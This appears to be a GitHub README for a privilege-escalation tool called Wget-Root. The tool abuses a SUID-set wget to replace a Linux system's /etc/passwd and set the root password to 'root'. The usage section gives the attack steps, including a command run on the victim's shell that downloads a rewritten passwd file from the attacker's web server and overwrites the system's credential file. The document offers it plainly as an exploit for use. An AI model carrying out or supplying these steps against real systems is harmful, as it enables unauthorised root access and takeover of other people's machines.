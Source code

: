 # Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file)
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.
**Congratulations!** 
Now switch users to `root` with the password `root`

![showcase](https://i.imgur.com/1bVzFk8.png)
